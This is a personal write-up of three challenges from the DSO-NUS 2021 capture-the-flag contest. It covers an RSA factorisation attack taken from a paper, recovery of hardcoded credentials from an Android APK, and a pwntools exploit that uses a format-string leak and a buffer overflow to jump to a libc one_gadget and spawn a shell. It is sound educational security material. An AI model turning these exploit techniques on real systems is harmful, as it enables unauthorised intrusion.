The DSO-NUS CTF was my first local competition of 2021 :).

I had honestly expected that I would not solve any challenges, seeing as to how this CTF was also targeted at **University** students rather than the **Junior College/ITE** categories that I was so used to.

However, my teammate and I managed to pull through and clinch 10th place!




# Writeups
Also, I made writeups the following challenges:
1. [(Crypto) Protect The Vaccine](#protect-the-vaccine)
2. [(Mobile) Login](#login)
3. [(Pwn) Robust Orbital Postal Service](#robust-orbital-postal-service)

## Protect The Vaccine
```A nation-supported hacker group is using their cutting edge technology to attack a company that develops vaccine. They roll their own crypto with a hope that it will be more secure. Luckily, we have got some of their crypto system information and also have found some research that is likely to break their crypto system. I heard you are a cipher breaker, could you help us to decrypt their secret and protect the vaccine from their plan?```

### Reconnaissance
We are given the 2020 paper by Amir Hamzah, Mhd. Rezal, and Mhd. Azraf, [A New LSB Attack on Special-Structured RSA Primes](https://www.mdpi.com/2073-8994/12/5/838), and an encryptor file as below:

```python
from config import a,b,m,r_p,r_q,secret
from Crypto.Util.number import bytes_to_long

p = a**m + r_p
q = b**m + r_q
N = p*q
e = 65537

M = bytes_to_long(secret)
c = pow(M, e, N)

print('N:', N)
print('e:', e)
print('r_p:', r_p)
print('r_q:', r_q)
print('c:', c)
```

The paper itself describes an attack on **primes of the special form **, where `n,m,r` are secret integers.

Ostensibly this is of the same form as the primes p and q in this challenge.

**At this point I heaved a protracted sigh of disappointment, deflating and slouching upon my chair as a leaky balloon prostrates upon the floor.**

**If Uncle Roger were here he would put down his leg. H A I Y A A.**

### On The Challenge Itself

It should be painfully obvious that whoever made this challenge simply wanted us to implement the attack.

The proofs and conceptual framework are thus insignificant. It is a nice paper though.

Below is a brief explanation of the attack:
1. Compute $$i=\lceil r_{p}r_{q} \rceil$$.
2. Thus compute $$\sigma=(\lceil \sqrt{N}\rceil-i)^{2}$$ and $$z\equiv N-(r_{p}r_{q})\pmod\sigma$$.
3. Then solve the quadratic equation $$X^{2}-zX+\sigma r_{p}r_{q}=0$$.
4. So compute $$p=\frac{x_{1}}{r_{q}}+r_{p}$$, and $$q=\frac{x_{1}}{r_{p}}+r_{q}$$.
5. If you do not get integer solutions for `p` and `q`, increment `i` and go to step 2.
6. Otherwise, you have factorized `p` and `q`.

There really is no need to explain anything else. Let's claim our flag and walk away in dejection...

### The Script & The Flag
```python
from Crypto.Util.number import long_to_bytes
N=3275733051034358984052873301763419226982953208866734590577442123100212241755791923555521543209801099055699081707325573295107810120279016450478569963727745375599027892100123044479660797401966572267597729137245240398252709789403914717981992805267568330238483858915840720285089128695716116366797390222336632152162599116524881401005018469215424916742801818134711336300828503706379381178900753467864554260446708842162773345348298157467411926079756092147544497068000233007477191578333572784654318537785544709699328915760518608291118807464400785836835778315009377442766842129158923286952014836265426233094717963075689446543
e=65537
r_p=5555
r_q=2021
c=1556192154031991594732510705883546583096229743096303430901374706824505750761088363281890335979653013911714293502545423757924361475736093242401222947901355869932133190452403616496603786871994754637823336368216836022953863014593342644392369877974990401809731572974216127814977558172171864993498081681595043521251475276813852699339208084848504200274031750249400405999547189108618939914820295837292164648879085448065561197691023430722069818332742153760012768834458654303088057879612122947985115227503445210002797443447539212535515235045439442675101339926607807561016634838677881127459579466831387538801957970278441177712

# I believe all you need to do is follow the instructions...
i=ceil(sqrt(r_p*r_q))

factorized=False
while not factorized:
    sigma=(int(sqrt(N))-i)**2
    z=int(Mod(N-r_p*r_q,sigma))
    print(i)

    x=var('x')
    S = solve(x^2-z*x+sigma*r_p*r_q==0,x,solution_dict=True)

    for soln in S:
        if not soln[x].is_integer():
            print("No solution :(((")
            break
        else:
            print(f"Got Solution! {soln[x]}")
            factorized=True
    i+=1
# Turns out we got lucky. At i=3379 we receive
x1=168200524686562144694620288802920098491216735170837810125672320002939647866974222365012727452940769281308849288903115688589419797624616813460735137583543839726240553545302460214475263890124428240711467804365871217554755973866852861234743770756153485545678683848833029401921482153203747584834969282377159947080780
x2=218640963841168131005470550035379468161157139960153907690360606758392731649074205802111908622011434335143690091387592220823296028451227124397192393817824166806698902839833001318765091590325160563899341911850960055105827530299680127408632836041078255714159019688574965424438294715765508204336190307241026142672404

q=(x1/r_p)+r_q
p=(x2/r_q)+r_p
print(p*q==N)

totient=(p-1)*(q-1)
d=inverse_mod(e,totient)
print(long_to_bytes(pow(c,d,N)))
```

And thus we receive the flag: 

`Let's meet at Yichun on 30 Feb. On that day, say 'DSO-NUS{851f6c328f2da456cbc410184c7ada365c6d1f69199f0f4fdcb9fd43101ce9ee}' to confirm your identity.`

## Login
```
It's time for a simple, relaxing challenge.
Can you find the correct credentials?
```

This was my first foray into Mobile RE. It was rather painful but at least I learnt more about dissecting Android applications.

### Reconnaissance

We are presented with an APK file which reveals some interesting code:








All from LoginDataSource.java and AESTools.java. The rest were... junk, to say the least.


### Making Sense of Everything.
We seem to need to recover 3 things:
- The `user ID`
- The first 4 characters of the `password`
- The last 8 characters of the `password`.

The first two are relatively trivial.




The only troublesome one was the `getNativePassword()` function.

However, upon following, we noticed that there was this `ddea.so` file (4 different binaries, we selected the ARM 64-bit one). Opening it gives us:



which... OK, it is what we want but...
It is pretty intimidating.

That is... if you **don't** look at the program graph.



It is evident that each and every byte is being xorred, from `byte_8F0` and `byte_901` to `byte_8FF` and `byte_910`.
This will give us the key.
(Sorry ;^; the screen was way too long)

So let us see if we can xor them together...



Bingo.
Thus we decrypt the AES ciphertext as:



Thus we submit
```
Username: User1337
Password: L1v3p2Zzw0rD
```

And receive the flag: 

`DSO-NUS{71bcade1b51d529ad5c9d23657662901a4be6eb7296c76fecee1e892a2d8af3e}`

## Robust Orbital Postal Service
```You managed to break into another one of the imposter's communication system, named the Robust Orbital Postal Service. This service lets the imposters send messages to one another secretly. Are you able to find out about their secrets?```

### Reconnaissance
Doing the things that we should do in Pwn:




Also, note that we have a LIBC file:


### Vulnerability Analysis
- `printf()` without *format strings* means a **Format String Exploit.**
- Unlike the previous FSBS challenge, there is no `getflag()` function.
    - Unfortunately, there is *NX bit* up.
    - So it has to be a **ret2libc** exploit (at least, that's what I assumed or this challenge would have been out of my capacity).
        - This is also reasonable considering we are given a `custom libc version`.
- PIE implies the need to leak PIE base... or do we?

**Verdict: ret2libc**

### The 15-min Exploit. (Refer to Script)
ret2libc attacks (that I know of) primarily concern themselves with exploiting `one_gadgets`, which spawns a shell so long as the constraints are met.

So we will be looking for `libc offsets` to jump into the `one_gadget`:



And the `one_gadget` itself:


Then, we simply perform your standard ret2libc exploit routine: 

1. Leak `libc base` with a known `libc` function:



We are using the **Format String Exploit** from the previous challenge (FSBS).


Then we look up the custom LIBC offset using LIBC-database.


In this case, our dear address is given by this line in our script:
```python
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
# Subject to change, of course, due to PIE.
```

2. Find our one_gadget address.

This... requires no explanation. Just use `one_gadget`.


I used the first one.

3. Lastly, **clear all constraints** as stipulated and jump to the `one_gadget`.

Because we are using `rax`, we can simply terminate the input string (`'\0'`) to reset it to `NULL`.

And just like that we clear our constraints!
We spare you the pain of looking at us connect to the server and thus we retrieve the flag:

`DSO-NUS{13514e093f9b3c56ed27bad097ea810b27c1e754b7de98d6ff8bc3006f5ab82d}`

### Appendix: The Script
```python
from pwn import *
context.log_level='DEBUG'
#r=process(["./ROPS"],env={"LD_PRELOAD": "libc.so.6"})
r=remote("ctf-jfi4.balancedcompo.site",9995)
# ROPS.so.6 in libcdatabase: local-f6cb23f4bb2899adab95d11fc2e5eba3ed1c3266
context.terminal=['/usr/bin/tmux', 'splitw', '-h']
r.recvuntil("name:")
r.sendline("%19$p") 
# This time we want a LIBC address whose offset we can find. 
# This one has offset 243.
r.recvuntil("to:")
r.recvline()
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
print(hex(libc_base))
#pause()
one_gadget=libc_base+0x44b9f
# Three candidates. Depends on the gadgets you can find. I'll try the first one...
# 0x44b9f - requires rax==0
# 0x44bf3 - requires [rsp+0x30]==0
# 0xe85c6 - requires [rsp+0x60]==0
r.sendline(b"\0"+b"A"*263+p64(one_gadget)) # Offset is again found at 264.
r.interactive()

```
